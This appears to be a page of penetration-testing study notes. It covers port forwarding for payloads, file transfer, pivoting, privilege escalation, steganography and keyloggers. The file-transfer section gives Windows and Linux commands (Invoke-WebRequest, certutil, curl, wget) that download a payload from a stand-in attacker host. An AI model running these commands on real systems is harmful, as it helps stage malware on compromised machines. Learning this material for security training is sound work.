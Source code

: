 ## Payload on Wan

- As you saw we were trying the payloads on LAN network. Does it run on WAN?
- To do this we will need a thing called port forwarding.
Port forwarding inherently gives people outside of your network more access to your computer. Giving access or accessing unsafe ports can be risky, as threat actors and other people with malicious intents can then easily get full control of your device.

## File Transfer

- File transfer techniques allow attackers to upload payloads or exfiltrate sensitive data during post-exploitation.
- File Transferring Server: You can Start Python server and use it to download from it.
- To start python: python3 -m http.server 9090
- For Windows
- Invoke-WebRequest: iwr -Uri "http://example.com/payload.exe" -OutFile "payload.exe"
- CertUtil: certutil.exe -urlcache -split -f "http://example.com/payload.exe" payload.exe
- For Linux
- curl http://[attacker_ip]:8080/file --output file
- wget http://[attacker_ip]:8080/file.

## **Pivoting**

is a technique used in penetration testing where an attacker leverages a compromised system to gain access to other systems within a network. It's essentially a way to move laterally within a network, bypassing security measures that might prevent direct access.  

## **Privilege Escalation

privilege escalation attack is a cyberattack to gain illicit access of elevated rights, permissions, entitlements, or privileges beyond what is assigned for an identity, account, user, or machine.

## Steganography


- Steganography is the practice of hiding a secret message inside of (or even on top of) something that is not secret. 
- That something can be just about anything you want. 
- These days, many examples of steganography involve embedding a secret piece of text inside of a picture
- But also we can hide inside audio files and etc
- There are many tools for this.

- The famous on is “steghide”
    
### **Keylogging**

- Keyloggers are activity-monitoring software programs or hardware device that give hackers access to your personal data.
-  The passwords and credit card numbers you type, the web pages you visit – all by logging your keyboard strokes.
- The software is installed on your computer, and records everything you type.
